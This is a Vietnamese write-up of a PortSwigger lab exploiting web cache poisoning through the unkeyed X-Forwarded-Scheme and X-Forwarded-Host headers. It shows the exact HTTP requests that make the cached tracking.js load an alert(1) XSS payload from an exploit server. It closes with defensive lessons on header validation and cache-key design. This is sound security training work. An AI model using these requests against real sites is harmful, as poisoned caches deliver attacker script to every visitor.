





# Write-up: Web cache poisoning with multiple headers

### Tổng quan
Khai thác lỗ hổng **Web Cache Poisoning** kết hợp **DOM-based XSS** trong ứng dụng web, nơi hai header `X-Forwarded-Scheme` và `X-Forwarded-Host` là unkeyed và được sử dụng để xây dựng URL trong response mà không được xử lý an toàn. Bằng cách sử dụng cả hai header để trỏ tới Exploit Server chứa payload XSS, kẻ tấn công poison cache, khiến response cacheable của `/resources/js/tracking.js` thực thi `alert(1)` trong trình duyệt nạn nhân.

### Mục tiêu
- Xác định các header unkeyed (`X-Forwarded-Scheme`, `X-Forwarded-Host`), poison cache với payload XSS thông qua Exploit Server, khiến trang chủ thực thi `alert(1)` trong trình duyệt nạn nhân và hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Pro (với extension Param Miner)
- Firefox Browser
- Exploit Server (PortSwigger)

### Quy trình khai thác

#### 1. Tìm multiple header
- Gửi request `GET /` với header `X-Forwarded-Host`:  
  ```
  GET / HTTP/2
  Host: 0a4f008904ca0f2782cecd47015a009b.web-security-academy.net
  X-Forwarded-Host: exploit-0a4f008904ca0f2782cecd47015a009b.exploit-server.net
  ```  
- Kết quả: Không có thay đổi trong response.  
  

- Sử dụng extension Param Miner để fuzz, phát hiện header `X-Forwarded-Scheme` được server hỗ trợ.  
  

- Sử dụng đồng thời hai header:  
  ```
  GET / HTTP/2
  Host: 0a4f008904ca0f2782cecd47015a009b.web-security-academy.net
  X-Forwarded-Scheme: http
  X-Forwarded-Host: exploit-0a4f008904ca0f2782cecd47015a009b.exploit-server.net
  ```  
- Kết quả: Response trả về mã `302 Found`, redirect đến Exploit Server.  
  

#### 2. Khai thác web cache thực hiện XSS
- Thiết lập body trên Exploit Server với payload XSS:  
  

- Gửi request `GET /resources/js/tracking.js` với hai header:  
  ```
  GET /resources/js/tracking.js HTTP/2
  Host: 0a4f008904ca0f2782cecd47015a009b.web-security-academy.net
  X-Forwarded-Scheme: http
  X-Forwarded-Host: exploit-0a4f008904ca0f2782cecd47015a009b.exploit-server.net
  ```  
- **Giải thích**: Hai header unkeyed thao túng URL của script `tracking.js`, khiến response cacheable trỏ đến Exploit Server chứa payload XSS (`alert(1)`).  
  

- Kết quả: XSS thực thi thành công, `alert(1)` được chạy trong trình duyệt nạn nhân, lab hoàn thành.  
  

### Bài học rút ra
- Hiểu cách khai thác **Web Cache Poisoning** bằng cách sử dụng multiple header unkeyed (`X-Forwarded-Scheme`, `X-Forwarded-Host`) để thao túng URL trong response cacheable và thực thi XSS.  
- Nhận thức tầm quan trọng của việc xác thực và lọc header người dùng, đồng bộ hóa cache key với các header được sử dụng, và vô hiệu hóa cache cho các endpoint động để ngăn chặn XSS.

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác **Web Cache Poisoning** thông qua multiple header unkeyed, nhấn mạnh tầm quan trọng của việc cấu hình cache an toàn và xử lý header để ngăn chặn thực thi mã độc trong trình duyệt nạn nhân. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 10/2025.*